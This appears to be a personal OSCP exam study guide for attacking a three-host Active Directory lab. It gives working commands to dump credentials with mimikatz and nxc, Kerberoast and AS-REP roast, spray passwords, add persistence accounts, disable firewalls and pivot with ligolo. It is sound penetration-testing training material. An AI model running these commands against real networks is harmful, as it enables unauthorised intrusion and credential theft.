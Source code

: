 # Active Directory

This section is specifically for the AD environment in OSCP and contains tips on how to pawn the AD in a painless manner. If you wish to understand more about AD in general, I strongly recommend TCM Security's Practical Ethical Hacking course and/or HackTheBox's CPTH path.

With the OSCP+, you are given a Domain User credential right from the start. This has been reflected in the OSCP A/B/C set (though for intents and purpose, all they did was to give you initial access. As far as i understand, there has been no changes to the AD itself)

## The OSCP AD Set

For the AD in OSCP, it contains three Windows machines. For the sake of this section, we will call them MS01, MS02 and DC01. 

MS01 will be a dual-homed host i.e it has two NICs; one external facing and one internal facing. This will be your initial access host. With the given creds, you should be able to either RDP in or WinRM in depending on which ports are open. MS02 and DC01 will not be accessible from your kali at the start.

The AD set is worth 40 points and contains three flags on the three hosts respectively. Flags on MS01 and MS02 are worth 10 points each while the flag on the DC01 will be worth 20 points. The flags are found in the respective hosts Administrator's folders which means you need to privilege escalate on each host to either Local Admin or Domain Admin. 

While it is an AD set, I prefer to call it a bunch of Windows boxes that happens to be in an AD which means the Windows enumeration and privesc techniques that you have learnt must be utilised. 

The broad strategy is thus as such:

1) Gain initial foothold on MS01 with given domain creds. Enumerate MS01 throughly using the Windows Enumeration techniques I have shared. PrivEsc to Local Admin.

2) Once Admin on MS01, **don't immediately get jump to MS02**. Enumerate MS01 throughly this time as Admin. There may be secrets that you can find. Also please remember to dump the NTLM hashes and check lsa secrets using mimikatz. You may gain additional domain creds or passwords that you can then use. If needed, get persistence via either getting the Admin's hash or creating a new admin user with rights to RDP/WinRM in.

3) Once you have enumerated MS01 as Admin and have gained (or not gained) any sensitive information, start a ligolo tunnel so that you can attack MS02 and query the DC. Since you are Admin on MS01, make your life easier and disable the firewall on MS01.

4) As you can query the DC from kali, you can now run AD Enumeration tools such as SharpHound, ldapdomaindump etc. Enumerate Domain Users and Domain groups using your preferred methods (*you can technically do this right from the start with MS01 but I rather you focus on pwning MS01 first before doing any AD related stuff as you may get distracted from the fact that you really need to get MS01 first*). Note any users who may be part of special groups such as Domain Admin, Backup Operators and any users with svc in their names (which could be Service accounts)

5) With your initial domain creds and access to the DC, you can now launch checks for Kerberoastable and As-REP attacks. 

6) Once you have your list of domain users and a set of passwords/NTLM hashes, you can now password spray against MS02. Do a normal spray and then another spray but with the --local-auth flag for local accounts.

7) hopefully, you should be able to now gain access to MS02 with a valid pair of creds. Do the same as in Step 1 but for MS02.

8) Once Admin on MS02, follow step 2.

9) The DC should be straight forward from here. (can't share more info as it would be too specific and may get me flagged by OffSec.😒)

## First Steps - Enumeration 

### MS01

1) run a full nmap scan against MS01. See whether 3389 (RDP) or 5985/5986 (WinRM) are open and choose your poison.
    - using evil-winrm to login allows quick uploading and downloading of tools. However be prepared to use RDP if you need to edit things on the host as a GUI makes things a lot easier.
    - There will probably be SMB open. Since you have creds, see what folders and documents you can access. However, if you can evil-winrm or RDP in, then you probably not need to do this since you can just access the shares through those.

```bash
# evil-winrm
# use -H if NTLM hash
evil-winrm -i <MS01 ip> -u <domain user> -p <password> 

# once logged in, you can download and upload files
PS something@something> download loot.txt # this downloads loot.txt from the host to your kali's current working directory
PS something@something> upload mimikatz.exe # this uploads your mimikatz.exe from your current working directory. If your mimikatz is somewhere else, you need to provide either the absolute or relative path

# via xfreerdp

xfreerdp /d:<domain> /u:<user> /p:'<password>' /v:<MS01 IP> /dynamic-resolution /drive:shared,../Tools

whoami /priv  # do this first once you are in! Maybe you get lucky and there is SeImpersonatePrivilege. If there is SeShutdown, perhaps the PE vector involves services or scheduled tasks so keep that in mind

# check history
PS something@something>Get-History
PS something@something>(Get-PSReadlineOption).HistorySavePath  # get path where PS history is saved at
PS something@something> type <PS history save path>
```

2) Do manual enumeration of MS01 first. This means checking out the following folders:
- C:\Users
- C:\  # check for any non default folders here and investigate them
- C:\inetpub # if there are web services on MS01

If there are anything interesting, check whether you can edit the files or add stuff to these directories. 

You should also do host, user and group enumeration both for local and domain. 

```cmd
net user # enumerate local users
net user /domain # enumerate domain users

# check if any users are admins
net user <username>
net user <username> /domain

# group Enum

net group
net group /domain

net group <groupname> /domain

# check pass pol

net accounts
```

3) Use winpeas if you need to! As there are many potential vectors to priv esc, i will not elaborate further on this step.

4) Great! You managed to get admin! You should do the following first:
- Get Persistence. My preferred method is to add a new local user and grant it admin, RDP and winrm rights. This uses native LOLBAS stuff and wont crash your machine. 
- Dump Hashes using mimikatz or nxc. Sometimes mimikatz can't work properly. I had issues getting mimikatz to run in evil-winrm (my suspicion is that there is User Access Control involved.) so you can either launch a cmd shell or RDP to get mimikatz to run or you can use nxc to do this (though you need either the Admin hash or your new custom local user who is admin). There are many ways to skin a cat so when something dont work, try another way
- Remember, if you have NTLM hash, you don't necessarily need to crack it as you can pass-the-hash for a lot of the attacks

```cmd
# mimikatz usage. Make sure you upload mimikatz.exe, mimispool.dll, mimilib.dll and mimidrv.sys to the same directory!
mimikatz.exe

privilege::debug  # if you see 20 OK, means you are gucci. This requires the user to have the SeDebugPrivilege rights which Admins have by default. It might be possible to run mimikatz if your low level user somehow has SeDebug privs but I have not encountered this.

sekurlsa::logonpasswords  # dump a whole lot of NTLM hash. You can generally ignore the Machine accounts. Note down any clear text passwords and all NTLM hashes of user accounts. Also please note the difference between a local account and a domain account. If it is a domain account, you will see 'Domain: <domain name>'. If it is a local account, you will see 'Domain: <hostname>' instead!

token::elevate

lsadump::sam
lsadump::secrets
lsadump::cache
```
Using NXC, you need local admin hash/password!
```bash
# the below is the equivalent of running mimikatz's sekurlsa::logonpasswords
# -H for NTLM hash
nxc smb <target ip> -u <admin user> -p <password> --sam --lsa --local-auth

# this is the equivalent of the mimikatz's lsadump
nxc smb <target ip> -u <admin user> -p <password> -M lsassy --local-auth
```

- Enumerate MS01 again as Admin. Comb through the Administrator's folder and then maybe run winpeas for good measure.

## MS02

5) check for kerberoast and as-rep roast since it is a low hanging fruit

```bash
# kerberoast check
sudo impacket-GetUserSPNs -request -dc-ip <dc01 ip> -outputfile kerber.hash <domain>/<user>
# as rep check
sudo impacket-GetNPUsers -request -dc-ip <dc01 ip> -outputfile asrep.hash <domain>/<user>

```

6) set up a ligolo agent on MS01. You could do a nmap scan of MS02 but it may take a while. In general, the smb port should be open so you can password spray with the domain users and all the passwords/Hashes you have obtained.

```bash
# enumerate domain users using nxc using your given domain creds
nxc smb <DC IP> -u <valid domain user> -p <password> --user
# this will output all the domain users. I then used sublime text to process the output into a domain users list

# Password spray against MS02 (assuming that there is no lockout policy)
# --continue-on-success flag will tell nxc to continue spraying even when a valid pair of creds is found
nxc smb <MS02 IP> -u <domain user list> -p <password list> --continue-on-success
nxc smb <MS02 IP> -u <domain user list> -p <password list> --continue-on-success --local-auth
nxc smb <MS02 IP> -u <domain user list> -H <ntlm list> --continue-on-success
nxc smb <MS02 IP> -u <domain user list> -H <ntlm list> --continue-on-success --local-auth

# if FTP, SSH,RDP,MSSQL,WINRM ports discovered do the following:
# replace ssh below with any of the protocols above
nxc ssh <MS02 IP> -u <domain user list> -p <password list> --continue-on-success
nxc ssh <MS02 IP> -u <domain user list> -p <password list> --continue-on-success --local-auth
```

7) Here is the part where it is slightly tricky. If you need to get a reverse shell back from MS02 to kali, you will need to open up a listener port on the ligolo agent on MS01. Refer to the ligolo page for more information. 

8) if you can get a shell either via winrm,rdp,ssh,mssql, you can then upload all your tooling. Do the same thing as with MS01 with the usual enumeration. If for some wierd reason, you have issues downloading from or uploading files to MS02, you can use nxc to download and upload files:

```bash
# note the double slash
# replace mssql with smb
nxc mssql <MS02 IP> -u sql_svc -p 'pass' --get-file 'C:\\Windows\\System32\\SAM' SAM  

nxc mssql <MS02 IP> -u sql_svc -p 'pass' --put-file SigmaPotato.exe 'C:\\Users\\Public\\potato.exe'
```